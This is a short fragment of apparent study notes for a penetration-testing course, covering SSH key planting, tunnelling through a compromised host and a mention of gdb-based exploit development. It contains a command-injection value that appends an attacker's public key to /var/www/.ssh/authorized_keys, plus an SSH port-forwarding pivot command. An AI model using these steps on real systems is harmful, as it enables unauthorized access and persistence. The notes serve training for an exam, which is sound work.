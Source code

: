         - `cat id_rsa.pub` then copy just the text
        - `;echo "<paste key here>" >> /var/www/.ssh/authorized_keys`
    - back on home directory `ssh www-date@10.50.28.52`, if everythign works, you should get in without a password
    - do web enumeration again `ls -la /var/www/html`

- tunnels
    - the box you authenticate to, that ishte box that can talk to the distant box
    - ssh www-data@<#ip> -L 1111:<#ip192.68.28.100>:22

- exploit dev (save for last)
    - gdb func
    pdisas main = green is good red is potentially exploitable 
    - he student guide, slide, and notes will be our best bet for the test 